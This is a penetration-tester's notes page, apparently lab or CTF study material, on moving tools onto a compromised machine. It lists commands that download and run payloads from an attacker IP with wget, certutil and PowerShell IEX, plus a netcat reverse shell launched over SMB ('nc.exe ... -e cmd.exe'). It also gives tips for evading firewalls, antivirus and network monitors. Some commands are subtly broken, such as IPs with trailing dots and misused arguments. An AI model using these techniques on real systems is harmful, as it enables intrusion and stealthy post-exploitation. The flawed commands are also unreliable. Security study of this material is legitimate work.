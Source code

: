 # File Transfers

File transfers are essential for an attacker. When we compromise a system, there are binaries and scripts that would make the further enumeration for privilege escalation a lot more useful. We can only do file transfers as long as we can execute commands on the system (via web shell or using a shell)

There are a few methods of transferring files, and the usage of each would depend on what is allowed on the system (the stuff the firewall doesn't block).

When downloading files, make sure that we output the file in a **directory that we can write to**.\
Possible directories include:

{% code title="For Linux" %}
```bash
/tmp
/dev/shm
/home/<user>
/var/www/html/<whatever>
# just check which directories we can write to using ls -la
```
{% endcode %}

```bash
C:\user\<compromised_user>\
C:\windows\temp\
C:\windows\system32\spool\drivers\color
C:\windows\tasks
# directories that are writeable to by all users
```

## HTTP

One of the easiest ways to transfer files easily. This would involve setting up a HTTP server on our attacking machine, and this can be done easily with a Python3 module.

```python
python3 -m http.server <port>
python2 -m SimpleHTTPServer <port>
```

Afterwards, depending on the OS, we can download the files over.

{% code title="Linux to Linux" %}
```bash
wget http://10.10.10.10/linpeas.sh -o linpeas.sh
# -o is optional for Linux systems
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
certutil.exe -urlcache -split -f "http://10.10.10.10./winPEAS.exe" "C:\users\vulnerable\documents\winpeas.exe"

# with powershell
powershell
wget "http://10.10.10.10/binary" -OutFile "C:\users\user\documents\binary.exe"

# or
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/9002.ps1', 'C:\users\user\documents\9002.ps1')

# curl
curl http://10.10.10.14/file -o C:\users\user\desktop\file
```
{% endcode %}

These are just some of the commands that we can use.

However, take note for Windows machines that even though we can run these, sometimes, there are firewalls or other Anti-Viruses that block the usage of these, and we cannot transfer files that easily. Sometimes, the anti-viruses may block certain ports from receiving connections.

To circumvent port blocking, I set up the Python HTTP server with commonly unblocked ports that are intended for web traffic, **such as port 80 and port 443,** which are for HTTP and HTTPS respectively.

However, there are times when downloading files to the machine via HTTP are blocked entirely. As such, rely on other methods to make it work.

## Server Message Block

Server Message Block (SMB) can run on either Windows or Linux, and we can transfer files using it if port 139 and 445 are open. I mainly use this for downloading to Windows machines.

First, set up a smbserver on our Linux machine, which we can do with smbserver.py from the **impacket suite**.

{% code overflow="wrap" %}
```bash
smbserver.py <name of share> <directory to make a share> -smb2support
# normally, i use 'share' as the name and '.' to signify the current working directory

smbserver.py -username guest -password guest share . -smb2support
# sometimes, windows defender does not allow smb connections that do not have credentials.
```
{% endcode %}

{% embed url="https://github.com/SecureAuthCorp/impacket" %}

SMB has the cool thing whereby we can download and run the files **without making a copy on the target machine**. This would mean that it is executed more stealthily without leaving any trace.

To download/execute files:

```powershell
#download
copy \\10.10.10.10\share\winPEAS.exe winpeas.exe

#use
\\10.10.10.10.\share\nc.exe 10.10.10.10 1234 -e cmd.exe
```

However, take note that this wouldn't work if SMB is not running or is completely blocked from making external connections.

## Netcat

Netcat is a computer network utility for reading from and writing to network connections using TCP or UDP. This exists as a binary in Linux that can be used via the `nc` command, or as a .exe file for windows.

{% embed url="https://github.com/int0x33/nc.exe/" %}

NC can be used to transfer files over ports should we be unable to use SMB or HTTP. **However, for Windows machines, we would need to get the nc.exe binary onto the target machine before we use it.**

For Linux machines, we just need to make sure that nc is installed. The&#x20;

```bash
# receiving end
nc(.exe) -l -p 1234 > out.file
# sending end
nc(.exe) -w 3 10.10.10.10. 1234 < out.file
```

Super useful when we cannot use wget or other methods.&#x20;

## Base64

I rely on this method the least because of the fact that sometimes, files aren't transferred properly using this. This method does not require any form of connection, and only requires base64.

> Base64 encoding schemes are commonly used when there is a need to encode binary data that needs to be stored and transffered over media that is designed to deal with ASCII.
>
> _Taken from Mozilla_

What this means is that every file, whether it's a .jpg, .gif, .exe, .elf or whatever, can be translated to base64. Subsequently, we can decode the base64 to get the file back.

This method just requires some commands to be used.

```bash
# on attacking machine
base64 <file> > base64file.txt
# copy and paste the base64 text to victim machine
base64 -d base64file.txt > binary
```

<pre class="language-powershell"><code class="lang-powershell"><strong># for powershell 
</strong><strong>[convert]::ToBase64String((Get-Content -path "your_file_path" -Encoding byte))</strong></code></pre>

Base64 can come in handy when we are transferring files. However take note that sometimes this method would produce anomalous results that don't work. This method is ideal when we cannot make any connections (which is unlikely) or if we want to stay hidden from network monitors.

##
